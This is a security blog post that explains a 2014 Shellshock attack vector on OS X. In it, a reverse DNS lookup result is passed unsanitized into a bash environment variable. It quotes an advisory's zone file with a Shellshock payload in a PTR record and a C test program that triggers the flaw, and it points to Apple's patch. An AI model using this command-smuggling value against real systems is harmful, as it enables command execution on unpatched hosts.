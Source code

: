 ```yaml
---
layout: post
title: "OSX vulnerable to Shellshock through DNS reverse lookup"
description: ""
category: Security
tags: 
- OSX
- ShellShock
- Exploits
---
```

{% include JB/setup %}
*Dirk-Willem van Gulik* has published on [seclists.org](http://seclists.org/fulldisclosure/2014/Oct/53) a document where explains
another attack vector for the famous [Shellshock bug](http://www.andreafortuna.org/tags.html#ShellShock-ref): through a 
reverse lookup in DNS, where the results of this lookup are
passed, unsanitized, to an environment variable (e.g. as part of
a batch process).

![ShellShock](http://static.itpro.co.uk/sites/itpro/files/bash.jpg)

<!-- more -->

>This vector is subtly different from a normal attack vector, as the
attacker can 'sit back' and let a (legitimate) user trigger the
issue; hence keeping the footprint for a IDS or WAAS to act on small.

The vulnerability is fixed by [this patch](http://support.apple.com/kb/DL1769) last September 29: all OSX system without this patch are vulnerable.

How to reproduce this flaw?
---
From [seclist.org](http://seclists.org/fulldisclosure/2014/Oct/53) article:

>A simple zone file; such as:

     $TTL 10;
     $ORIGIN in-addr.arpa.
     @     IN SOA     ns.boem.wleiden.net dirkx.webweaving.org (
                    666        ; serial
                    360 180 3600 1800 ; very short lifespan.
                    )
     IN          NS     127.0.0.1
     *           PTR      "() { :;}; echo CVE-2014-6271, CVE-201407169, RDNS" 

can be used to create an environment in which to test the issue with existing code
or with the following trivial example:

    #include <sys/socket.h>
    #include <netdb.h>
    #include <assert.h>
    #include <arpa/inet.h>
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    #include <netinet/in.h>

    int main(int argc, char ** argv) {
     struct in_addr addr;
     struct sockaddr_in sa;
     char host[1024];

     assert(argc==2);
     assert(inet_aton(argv[1],&addr) == 1);

     sa.sin_family = AF_INET;
     sa.sin_addr = addr;

     assert(0==getnameinfo((struct sockaddr *)&sa, sizeof sa,
          host, sizeof host, NULL, 0, NI_NAMEREQD));

     printf("Lookup result: %s\n\n", host);    

     assert(setenv("REMOTE_HOST",host,1) == 0);
     execl("/bin/bash",NULL);
    }

Other operating systems (e.g. RHEL6, Centos, FreeBSD 7), seem to be  
immune: in their standard configurations *libc/libresolver* and *DNS* are using 
different *escaping mechanisms* (octal v.s. decimal).
